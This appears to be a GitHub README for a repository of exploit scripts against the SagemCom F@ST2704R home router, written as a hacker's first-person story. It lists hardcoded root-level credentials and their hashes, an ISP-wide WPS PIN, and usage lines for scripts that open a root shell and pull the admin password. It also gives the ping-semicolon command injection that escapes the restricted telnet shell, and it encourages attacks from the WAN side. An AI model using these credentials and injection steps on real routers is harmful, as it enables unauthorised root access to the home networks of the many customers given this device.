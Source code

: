 # F@ST2704R has a root shell for everybody!

### What is it?

Basically, if you don't know the admin password of your **SagemCom F@st2704R** router, you can still get a root shell with the user account's hardcoded password.


### Included
`root.sh` is a simple shell script that provides the root shell

`admin.py` is a python script that downloads the router's configuration file and extracts the admin password. You don't need to crack `/etc/passwd` anymore!

`getHashes.sh` uses the same login principle as **root.sh** but automatically downloads the remote /etc/passwd file in a local directory instead of letting the user interact with the shell. ~~You can later crack the DES hashes with a password cracking tool.~~ You can use `admin.py` instead

`lsFileList.txt` is the complete list of files on the device.

### Usage

`$./root.sh [target=192.168.1.1]` to get a root shell

`$python admin.py [target=192.168.1.1]` to find admin's password

~~`$./getHashes.sh [target=192.168.1.1]` to save password hashes. John the Ripper will require sudo on a lot of distro~~ **getHashes.sh is no longer necessary. It is still available for the hashes lovers around here, but admin.py is much more efficient to find the admin password**

## Long story short

I went back to my parent's place for a few days. I had quite a surprise: they replaced the nice Cisco router I got them by a **Sagemcom F@ST2704R** . When I asked them why, they told me the local ISP gave **F@ST2704R** to all their clients in the area. Knowing that was quite a lot of clients I decided to take a look at the device.

### So... How is it?

This piece of hardware/software is crap.

Telnet and ssh is activated by default on the LAN. The admin password is a string of 4 lowercase letters. Wrong start mate. **Update: The ISP also gave all their clients the same WPS PIN! Try to aquire the WPA passphrase with PIN 76229909**

I logged on telnet to discover that the provided shell was somewhat limited. Trying basic unix commands would lead to an error.

```
> ls
telnetd:error:774.006:processInput:406:unrecognized command ls
```

Let's see what we have

```
> help
?
help
logout
exit
quit
reboot
adsl
xdslctl
xtm
brctl
cat
loglevel
logdest
virtualserver
ddns
df
dumpcfg
dumpmdm
dm
meminfo
psp
kill
dumpsysinfo
dnsproxy
syslog
echo
ifconfig
ping
ps
pwd
sntp
sysinfo
tftp
wlctl
arp
defaultgateway
dhcpserver
dns
lan
lanhosts
passwd
ppp
restoredefault
route
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
mcpctl
```


No ls, no cd... I would need more than that. Still, I got cat!
From there, I grab the `/etc/passwd` file. There were 2 users I found interesting.

```
support:5IkwiJv9RNzV.:0:0:Technical Support:/:/bin/sh
user:75bUXAuHldJ82:0:0:Normal User:/:/bin/sh
```

We can see their UID and GID is 0... who the hell gives admin privileges to a user account?????
Cracking the hashes with the tool john, we find the credentials are

```
support:support
user:user
```

The admin account had at least the decency of using a different password on every device instead of a hardcoded one...

Trying to log with the support account leads to a dead end, access is denied for some reason. 
This is not the case with the "user" account. Typing help in the user prompt gives us a really short list of commands that can be used by the user account. **Update: After some tests, it seems like the support account is blocked from LAN, but is available from WAN. If you're attacking from WAN, use the support account**

```
> help
?
help
logout
exit
quit
reboot
dnsproxy
ping
lanhosts
passwd
restoredefault
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
```

### Let's explore the firmware for more info!

Unfortunately, the F@ST2704R firmware is not available to download, but [the F@ST2704 is](http://support.sagemcom.com/site/mo/broadband-access-9/sagemcom-f-st-2704-etisalat-1035/driver). It can't be THAT different eh?
wget this stuff, and binwalk the shit out of it!
Not so surprisingly, the binairies we want exist in the `/bin/` folder, the shell we're provided just can't get to it. We must break the jail.

### Breaking the jail

We have access to ping...

 ```
 > ping -c 1 127.0.0.1
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.866 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.866/0.866/0.866 ms
```

I wonder if... Let's try some semicolon magic!

```
> ls
telnetd:error:997.792:processInput:406:unrecognized command ls
 >
 >
 > ping -c 1 127.0.0.1 > /dev/null; ls
bin      etc      mnt      sbin     usr      webs-EN
data     lib      opt      sys      var      webs-FR
dev      linuxrc  proc     tmp      webs
```

Alright! this way I can get a real shell

```
 > ping -c 1 127.0.0.1 > dev/null; bash


BusyBox v1.17.2 (2013-09-30 17:48:17 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

 Using the username `user` and the default password `user` followed by this ping/semicolon loophole gives us access to a shell with administrative rights more easiy than brute-forcing the admin's password (default 4 letters, can be changed for another one up to 16 letters).

 **Automated shell script included lucky bastard!**

 **Remember you still have to deal with squashfs read-only filesystem!**

 Honestly I didn't push my research really far. Maybe this has been documented before and maybe the firmware is available somewhere (I might dump it in a few days... or months). If this is the case, contact me.

 ~ Mixbo www.wakowakowako.com

